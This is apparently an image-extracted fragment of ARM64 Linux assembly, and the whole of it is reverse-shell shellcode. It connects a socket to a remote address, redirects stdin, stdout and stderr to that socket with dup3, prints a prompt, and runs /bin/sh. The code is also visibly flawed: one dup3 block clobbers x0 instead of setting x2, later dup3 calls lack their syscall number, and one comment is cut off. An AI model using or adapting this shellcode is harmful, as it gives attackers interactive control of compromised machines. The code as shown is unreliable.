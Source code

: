 ```nasm
        mov x0, x4            // write 0 for AF_INET 
        adr x1, sockaddr        // pointer to address, port 
        mov x2, #16
        mov w8, #203         // x8 = 203 (connect)
        svc 0

// dup3(sockfd, 0, 0) 
          
        mov x0, x4           // x4 is the saved sockfd 
        mov x1, #0           // x1 = 0 (stdin)
        mov x2, #0           // x2 = 0
        mov w8, #24          
        svc 0

// dup3(sockfd, 1, 0) 
        mov x0, x4          // x4 is the saved sockfd 
        mov x1, #1          // x1 = 1 (stdout) 
        mov x0, #0          // x2 = 0 
        svc 0

// dup3(sockfd, 2, 0) 
        mov x0, x4         // x4 is the saved sockfd 
        mov x1, #2         // x1 = 2 (stderr)
        mov x2, #0         // x2 =
        svc 0

// write() for prompt
display_prompt:
        mov x0, #1
        adr x1, prompt
        ldr x2, =prompt_len
        mov w8, #64
        svc 0

// write() for welcome
        mov x0, #1
        adr x1, welcome
        ldr x2, =welcome_len
        mov w8, #64
        svc 0

// execve("/bin/sh",0,0) 
        adr   x0, shell
        adr   x1, shell_args
        mov   x2, #0
        mov   w8, #221       // x8 = 221 (execve) 
        svc   0
```
